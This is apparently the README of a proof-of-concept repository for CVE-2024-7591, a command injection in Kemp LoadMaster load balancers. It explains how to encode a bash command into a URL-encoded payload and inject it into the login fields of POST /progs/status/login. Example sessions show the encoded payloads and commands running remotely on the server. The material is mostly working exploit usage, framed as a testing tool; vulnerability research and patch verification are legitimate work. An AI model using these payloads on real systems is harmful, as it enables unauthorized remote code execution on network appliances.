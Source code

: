# CVE-2024-7591-PoC
These PoC python scripts test the Kemp LoadMaster for remote code execution.

THIS TOOL IS INTENDED FOR TESTING PURPOSES ONLY

These scripts were based on Marius Walter's writeup on the specifics of this exploit. You can read their post at:
https://insinuator.net/2024/11/vulnerability-disclosure-command-injection-in-kemp-loadmaster-load-balancer-cve-2024-7591/

This is a python3 script meant for testing a LoadMaster against CVE-2024-7591.


USAGE:

KempRCECommandGenerator.py is meant to take a bash command and convert it in to an encoded form that can be used to run
remote commands against a vulnerable LoadMaster. The output of this code is meant to be used in conjunction with Burp
Suite or some other tool to send remote commands to the server.

Example:
```
$: python3 ./KempRCECommandGenerator.py
Enter your command: echo hello
Put this output in the token, token2, user, or pass field
in the POST request to /progs/status/login.

%01%78%27%3b%65%63%68%6f%20%68%65%6c%6c%6f%3b%65%63%68%6f%20%27%01

$: 
```
Your command output should be present in the response after the HTTP headers and before the html code.




KempExploit.py is meant to be an independent use python script for testing if the vulnerability is exploitable or running
custom code.

PREREQUISITES:

requests

urllib3

bs4

You will need to update some variables in the script, like IP address, port and https vs http.

Example:
```
$: python3 ./KempExploit.py
Enter your command to send or leave blank to test: 
It looks like I found a target and some tokens. Do you want to proceed? [y/N]y
Login POST status code: 200
✅ 'exploitable' found in response, erver confirmed vulnerable."
$:

Example 2:
$: python3 ./KempExploit.py
Enter your command to send or leave blank to test: ping -c2 10.0.0.5
Running the command ping -c2 10.0.0.5
The encoded command looks like: %01%78%78%27%3b%70%69%6e%67%20%2d%63%32%20%31%30%2e%30%2e%30%2e%35%3b%65%63%68%6f%20%27%01
Login POST status code: 200
Response body:
ping 10.0.0.5 (10.0.0.5) 56(84) bytes of data.
64 bytes from 10.0.0.5: icmp_seq=1 ttl=63 time=3.19 ms
64 bytes from 10.0.0.5: icmp_seq=2 ttl=63 time=8.41 ms
<!DOCTYPE html>
<html>
<head>
<script>
alert("Login Failed");
</script>
<script>
if(parent && parent != window){
parent.location = "/";
parent.location.reload(true);
}
</script>
</head>
</html>
$: 
```


